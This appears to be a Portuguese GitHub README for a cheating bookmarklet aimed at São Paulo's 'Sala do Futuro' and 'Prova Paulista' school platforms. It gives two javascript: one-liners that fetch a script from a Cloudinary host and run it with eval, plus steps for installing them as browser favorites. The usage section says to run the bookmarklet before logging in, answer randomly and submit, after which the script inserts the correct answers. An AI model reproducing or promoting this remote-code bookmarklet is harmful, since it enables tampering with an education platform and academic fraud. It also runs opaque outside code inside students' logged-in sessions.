 # 🚀 HCK - PROVA PAULISTA 

## HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## HCK - TAREFAS:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745882260/saladofuturov2.js").then(t=>t.text()).then(eval);
```
---

## TUTORIAL DE INSTALAÇÃO:

## **Método Desktop**
1. Clique com o botão direito do mouse na **barra de favoritos** do navegador.
2. Selecione a opção **"Adicionar página"** ou **"Adicionar favorito"**.
3. Preencha os campos:
   - **Nome:** Digite qualquer título para o favorito.
   - **URL/Endereço:** Cole o código logo acima.

## **Método Mobile**
1. Clique nos **três pontos verticais** (☰) no canto superior direito do navegador.
2. Selecione o ícone de **estrela** (Adicionar aos favoritos).
3. Na janela que aparecer:
   - **Nome:** Digite qualquer título para o favorito.
   - **URL/Endereço:** Cole o código acima.

---
### COMO USAR:

1. **Execute o bookmarklet** antes de efetuar o **Login no Sala do Futuro.**

2. Vá até a **tarefa**, responda **todas questões aleatoriamente** e envie.

3. O bookmarklet fará o resto, ele irá inserir no **todas às respostas corretas** no lugar.

*Obs: A questão do tempo depende de quanto tempo você permanecer na página da tarefa antes de enviá-la.*

---
### [Discord: hackermoon](https://discord.gg/rmbts8SC)

## Créditos/Base:

- [@inacallep](https://github.com/inacallep)

- [@crackingnlearn](https://github.com/crackingnlearn)

- [@miturufu](https://github.com/Miturufu)
